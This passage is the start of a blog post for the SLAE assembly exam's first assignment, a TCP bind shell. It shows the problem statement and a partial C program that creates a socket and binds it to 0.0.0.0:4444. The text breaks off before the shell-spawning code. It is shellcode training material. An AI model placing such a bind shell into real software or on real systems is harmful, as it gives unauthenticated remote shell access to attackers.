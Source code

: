 ```yaml
---
layout: post
title: SLAE Exam 1 TCP Bind Shell
category: Security
tags: [slae, shell, assembly, programming]
---
```


The SecurityTube Linux Assembly Expert (SLAE) exam is an open-source format that requires the test taker to blog each answer of the 7-part test. The instructor feels that this allows the security community to better develop in the areas being blogged about. Originality is a must when it comes to this, so I've strived to not view any other posts prior to posting my own. The first assignment involves hand-writing a TCP Bind Shell...


# Assignment 1 - TCP Bind Shell

Hello! Thanks for stopping by! I'm just sipping on an incredible V60-pourover of some **Monticello Sunrise** (_Medium, Ethiopia_) roasted by my great friends over at CommonWealth Joe's coffeeshop. I've had a great time taking SecurityTube's course, Securitytube Linux Assembly Expert (SLAE). It's refreshed a lot of what I've forgotten, as well as taught me a lot about hand-writing shellcode in x86 assembly. Now it's time for me to prove my worth. So, without further ado, let's jump into assignment 1!

_Note:_ All of the following code can be found at [https://github.com/audrummer15/slae-exam](https://github.com/audrummer15/slae-exam).

## Problem Statement

* Create a Shell_Bind_TCP shellcode
  - Binds to a port
  - Execs Shell on incoming connection
* Port number should be easily configurable


## Forming a Base

Let's start off by writing our own C program to do what we want:

**_assignment1.c_**

```c
#include <unistd.h> // dup2, execve
#include <netinet/in.h> // socket structures and constants

#define PORT 4444

int main() {
  int sockfd, clientfd;
  struct sockaddr_in bind_addr;


  // CREATE SOCKET
  // create a new socket  (ipv4, tcp)
  sockfd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);


  // BIND TO ADDRESS
  // create the address to bind to
  bind_addr.sin_family = AF_INET; // ipv4
  bind_addr.sin_port = htons(PORT); // port in the correct endianness
  bind_addr.sin_addr.s_addr = INADDR_ANY; // NULL (0.0.0.0)

  // Bind to the specified address (0.0.0.0:4444)
```